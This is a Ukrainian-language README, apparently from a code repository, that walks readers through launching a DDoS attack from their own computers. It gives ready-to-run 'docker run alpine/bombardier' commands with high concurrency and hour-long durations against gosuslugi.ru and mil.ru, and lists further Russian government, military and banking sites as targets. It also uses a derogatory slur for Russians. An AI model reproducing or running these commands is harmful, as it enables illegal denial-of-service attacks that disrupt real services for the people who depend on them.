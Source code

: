 # Валимо русню РАЗОМ!!! 
## Якщо не можете фізично, то можете інформаційно! Внизу кроки для організації DDoS-атаки з вашого комп'ютера.  

1. Завантажуємо Docker та встановлюємо на свій комп'ютер:  
`Windows`: https://docs.docker.com/desktop/windows/install  
`MacOS`: https://docs.docker.com/desktop/mac/install  
Важливо відкрити після цього програму `Docker`. Якщо після відкриття з'являється помилка з текстом `WSL 2 installation is incomplete` завантажуємо та встановлюємо драйвер тут: https://wslstorestorage.blob.core.windows.net/wslblob/wsl_update_x64.msi  
Після цього повинно працювати. Якщо просить перезавантажити комп'ютер - робимо це.

2. Відкриваємо консоль:  
`Windows`: комбінація клавіш `win + r`. В полі `Відкрити:` пишемо `cmd`. Жмакаємо `Enter`.  
`MacOS`: комбінація клавіш `Command(⌘) + пробіл` (інколи `Ctrl + пробіл`). В поле пошуку вводимо `terminal`. Жмакаємо `Enter`.  
Повинно появитися чорне вікно з мигаючим курсором.

3. В консолі вписуємо наступну команду:
```
docker run --rm -it alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
Інформація по параметрах команди:  
`-c 1000` - скільки буде відбуватися одночасно запитів на вказане посилання. Не потрібно вписувати дуже великі числа. Все залежить від потужностей вашого комп'ютера. Але можете поексперементувати і вказати більше або менше ніж 1000.  
`-d 3600s` - час в секундах, протягом якого будуть відбуватися запити. В команді вказано час на 1 годину, але можна поставити більше. Час вказувати в секундах, після кількості секунд дописати букву `s`.  
Жмакаємо `Enter`. 

4. Насолоджуємся і уявляємо як русня бігає в офісі роскомнадзору і дує на свої сервера, щоб вони не загорілись.

P. S.: дані кроки можна повторювати багато разів для різних сайтів. Просто змінюємо посилання на одне з наступних:  
https://epp.genproc.gov.ru  
https://ach.gov.ru  
https://scrf.gov.ru  
https://mil.ru  
https://www.roscosmos.ru  
https://www.sberbank.ru  
http://kremlin.ru  
https://rkn.gov.ru  

Наприклад:
```
docker run --rm -it alpine/bombardier -c 700 -d 7200s -l https://mil.ru
```
